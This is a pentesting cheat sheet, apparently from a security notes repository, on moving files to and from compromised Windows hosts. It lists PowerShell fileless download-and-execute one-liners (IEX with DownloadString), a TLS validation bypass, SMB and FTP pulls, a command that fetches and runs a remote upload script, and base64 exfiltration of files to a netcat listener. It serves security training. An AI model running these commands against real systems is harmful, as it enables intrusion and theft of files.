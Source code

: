 # 📁 File Transfers

In the profane rites of assessment, the movement of relics—scripts, payloads, and binaries—is both necessary and perilous. This chapter reveals methods for casting files across dimensions, utilizing primitive yet persistent protocols shared among ancient systems both Windows and Linux.

> *"No summoning may begin until the runes are in place."*

---

<details>
  <summary><strong>🪟 Windows</strong></summary>
  <details>  
    <summary><strong>📥 Downloads</strong></summary>
      <details>
        <summary><strong>PowerShell Downloads</strong></summary>  
        <details> 
        <summary><strong>PowerShell DownloadFile Method</strong></summary>
          Sync  
          ```powershell
          (New-Object Net.WebClient).DownloadFile('<FILE URL>','<OUTPUT FILE>')
          ```
            Async  
            ```powershell
            (New-Object Net.WebClient).DownloadFileAsync('<FILE URL>','<OUTPUT FILE>')
            ```
        </details>

  <details>
    <summary><strong>PowerShell DownloadString - Fileless Method</strong></summary>

  Default  
  ```powershell
  IEX (New-Object Net.WebClient).DownloadString('<FILE URL>')
  ```

  Pipeline input  
  ```powershell
  (New-Object Net.WebClient).DownloadString('<FILE URL>') | IEX
  ```
  </details>

  <details>
    <summary><strong>PowerShell Invoke-WebRequest</strong></summary>

  Default  
  ```powershell
  Invoke-WebRequest <FILE URL> -OutFile <OUTPUT FILE>
  ```

  ByPass Internet Explorer Error  
  ```powershell
  Invoke-WebRequest <FILE URL> -UseBasicParsing | IEX
  ```

  ByPass SSL/TLS Error  
  ```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  # Command to download the file
  ```
  </details>
  </details>

  <details>
    <summary><strong>SMB Downloads</strong></summary>

  **Default**
  
  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare
  ```
  Download using CMD in Windows
  ```cmd
  copy \\<IP>\share\<FILE>
  ```
  
  **Using credentialts**

  Create the SMB Server in Linux
  ```bash
  sudo impacket-smbserver share -smb2support /tmp/smbshare -user <USER> -password <PASSWORD>
  ```
  Mount the SMB Server in Linux
  ```cmd
  net use n: \\<IP>\share /user:<USER> <PASSWORD>
  copy n:\<FILE>
  ```

  </details>

<details>
    <summary><strong>FTP Downloads</strong></summary>  
    
  **Upload file**  
  
  Setting up a Python3 FTP Server in Linux
  ```bash
  sudo pip3 install pyftpdlib
  sudo python3 -m pyftpdlib --port 21
  ```

  **Option 1: Download file using Powershell**
  ```powershell
  (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', 'C:\Users\Public\<OUTPUT FILE>')
  ```

  **Option 2: Download file using CMD**  
  
  Create a Command File for the FTP Client and Download the Target File
  ```cmd
  echo open <IP> > ftpcommand.txt
  echo USER anonymous >> ftpcommand.txt
  echo binary >> ftpcommand.txt
  echo GET <FILE> >> ftpcommand.txt
  echo bye >> ftpcommand.txt
  ftp -v -n -s:ftpcommand.txt
  ```
  Once in FTP...
  ```cmd
  open <IP>
  USER anonymous
  GET <FILE>
  bye
  ```
  Back in CMD...
  ```cmd
  more <FILE>
  ```
---
  
  </details>
  </details>
  <details>  
    <summary><strong>📥 Uploads</strong></summary>  
    <details>  
  <summary><strong>PowerShell Uploads</strong></summary>  
  <details>  
  <summary><strong>PowerShell Base64 Encode & Decode</strong></summary>  
    
  1. Encode File Using PowerShell 
  ```powershell
  [Convert]::ToBase64String((Get-Content -path "<FILE PATH>" -Encoding byte))
  Get-FileHash "<FILE PATH>" -Algorithm MD5 | select Hash
```
We copy this content and paste it into our attack host, use the base64 command to decode it, and use the md5sum application to confirm the transfer happened correctly.  

  2. Decode Base64 String in Linux
  ```bash
  echo <BASE64 STRING> | base64 -d > <FILE>
  md5sum <FILE>
  ```
  </details>
  <details>  
  <summary><strong>PowerShell Web Uploads</strong></summary>  
    
  1. Installing a Configured WebServer with Upload in Linux
  ```bash
  pip3 install uploadserver
  python3 -m uploadserver
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://<IP>:<PORT>/upload -File <FILE PATH>
  ```

  </details>
  <details>  
  <summary><strong>PowerShell Base64 Web Upload</strong></summary>  
    
  1. We use Netcat to listen in on a port we specify and send the file as a POST request.
  ```bash
  nc -lvnp <PORT>
  ```
  2. PowerShell Script to Upload a File to Python Upload Server
  ```powershell
  $b64 = [System.convert]::ToBase64String((Get-Content -Path '<FILE PATH>' -Encoding Byte))
  Invoke-WebRequest -Uri http://<IP>:<PORT>/ -Method POST -Body $b64
  ```
  3. We copy the output and use the base64 decode function to convert the base64 string into a file.
  ```bash
  echo <BASE64 FILE> | base64 -d -w 0 > <FILE>
  ```
  </details>
  </details>
  </details>
</details>

---

<details>
  <summary><strong>🐧 Linux</strong></summary>
</details>

---

